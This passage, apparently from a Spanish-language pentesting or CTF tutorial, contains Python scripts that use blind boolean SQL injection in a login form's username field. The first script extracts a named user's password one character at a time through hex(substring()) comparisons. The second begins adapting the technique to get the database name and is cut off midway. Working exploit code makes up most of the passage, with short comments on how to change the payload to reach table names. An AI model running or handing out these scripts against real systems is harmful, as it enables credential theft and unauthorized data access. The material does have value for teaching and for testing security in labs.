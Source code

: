 ```python

        password = ""

        p2 = log.progress("Usuario")

        for position in range(1, 22):   #El rango de caracteres que pueda tener el usuario
                for character in characters:
                        post_data = {
                                'username' : "' or (select hex(substring(password, %d,1)) from users where username='enemigosss')=hex('%s')-- -" % (position, character),     #Donde pone hex() significa que estamos jugando con el formato hexadecimal para que nos detecte si es mayuscula o minuscula la letra y con sus respectibos simbolos...
                                'password' : 'test'
                        }

                        p1.status(post_data['username'])

                        r = requests.post(login_url, data=post_data)

                        if r.text == "1":       #Parametro de la comparacion para saber si es True o False

                                password += character
                                p2.status(password)
                                break

if __name__ == '__main__':

        makeRequest()
```

A parte si queremos saber como se llama la tabla que contiene ese usuario, podremos utilizar una tabla que suele venir por defecto en las bases de datos llamada `name` por lo que sustituimos `username` por `name`...

Si queremos sacar el nombre de la base de datos, tendremos que modificar la inyeccion de codigo de otra manera, por lo que el script se tendra que modificar a las necesidades de cada uno...

> EJEMPLO (NOMBRE BASE DE DATOS)

```python
#!/usr/bin/python3

from pwn import *
import requests, pdb, string, signal, sys, time

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
login_url = "http://<IP>/<LOGIN>"
characters = string.ascii_lowercase + "-_"

def makeRequest():

        p1 = log.progress("Fuerza bruta")
        p1.status("Iniciando proceso de fuerza bruta")

        time.sleep(2)

        database = ""
```